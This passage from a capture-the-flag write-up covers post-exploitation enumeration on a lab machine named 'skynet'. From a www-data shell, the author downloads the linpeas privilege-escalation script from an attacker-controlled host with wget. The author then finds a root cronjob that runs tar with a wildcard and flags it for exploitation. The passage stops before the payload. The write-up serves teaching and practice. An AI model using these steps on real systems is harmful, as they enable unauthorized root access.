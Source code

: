 To begin the enumeration, I uploaded `linpeas.sh` — a powerful script that helps identify privilege escalation paths on Linux systems. Here's how I did it:

```console

www-data@skynet:/tmp$ wget http://10.23.106.242:8080/linpeas.sh
wget http://10.23.106.242:8080/linpeas.sh
--2025-06-16 07:08:30--  http://10.23.106.242:8080/linpeas.sh
Connecting to 10.23.106.242:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840082 (820K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 820.39K   809KB/s    in 1.0s    

2025-06-16 07:08:31 (809 KB/s) - 'linpeas.sh' saved [840082/840082]

www-data@skynet:/tmp$ ./linpeas.sh
./linpeas.sh
bash: ./linpeas.sh: Permission denied
www-data@skynet:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@skynet:/tmp$ 
```

Initially, I encountered a `“Permission denied”` error when trying to execute the script. This was quickly resolved by adding execute permissions with `chmod +x`.

During the scan, I noticed a key cronjob:

```console
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

This line means that every minute, the system executes `/home/milesdyson/backups/backup.sh` as the **root** user. I immediately inspected the contents of that script:

```console
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

This script changes to the `/var/www/html` directory and creates a tar archive from its contents. Since it's being run as **root** and is using **tar**, a well-known opportunity for exploitation came to mind.
